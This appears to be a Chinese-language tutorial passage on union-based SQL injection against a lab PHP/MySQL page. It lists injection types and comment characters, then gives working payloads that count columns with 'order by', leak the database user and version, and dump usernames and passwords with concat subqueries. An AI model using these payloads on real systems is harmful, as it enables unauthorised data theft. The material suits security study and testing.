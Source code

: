 ```sql
select * from tables where username = 'yang';
```

##### 3、搜索型

```sql
select * from tables where id like '%yang%';
```

##### 4、注释方式

数据类型不同，在注入的payload中会有大小不同，主要就是考察对字符语法规则的理解和注释符的运用。

```sql
#(%23), --空格(--+), /* */
```

### 二、注入步骤

**1、通过`and 1=1 and 1=2`的输入，来判断是否存在注入点。如果结果不一致，说明我们输入的语句被数据库执行了**

**2、通过观察或报错信息来判定注入点的类型**

- 数字型
- 字符型
- 搜索型

**3、使用`order by`来确定主查询数目。`order by`本质上是一个排序的语法，但是`order by`有一个条件，就是排序必须建立在正确的查询条数上。所以在注入中用`order by`并不是为了排序， 而是为了确认主查询的条数，确保`union select`的查询数与主查询一致。`order by`只会在超出主查询列数后才会报错，小于或者等于主查询数列不报错**

```sql
http://192.168.72.148/security/read.php?id=1 order by 6	#不报错说明列数正确
http://192.168.72.148/security/read.php?id=88 union select 1,2,3,4,5,6
```

 ![image-20220719191003896](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207191910978.png)

> 代表回显行数是3和4

**4、使用`union select`查询，将主查询项改成符数或者不存在的数**

```sql
# union 联合查询的前提是：列数相等
http://192.168.72.148/security/read.php?id=88 union select 1,2,3,4,5,6
/security/read.php?id=88 union select 1,2,CONCAT_WS(CHAR(32,58,32),user(),database(),version()),4,5,6
```

![image-20220719191441585](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207191914653.png)

> 在能够回显的基础上，则可以做任意MySQL支持的查询，包括各种SQL语句和内置变量或函数的应用

**5、在显示的数字位置上，替换对应的查询语句，`database()、version?()、user()`**

```sql
# 可以直接查询数据表的内容，实现拖库，以下查询的前提是需要知道表名和列名
/security/read.php?id=88 union select 1,2, (select username from user limit 0,1) ,4,5,6

# 通过concat进行字符串拼接，可以一次性获取一行数据
/security/read.php?id=88 union select 1,2, (select concat (userid,'==',username,'==',password) from user limit 0,1) ,4,5,6
```
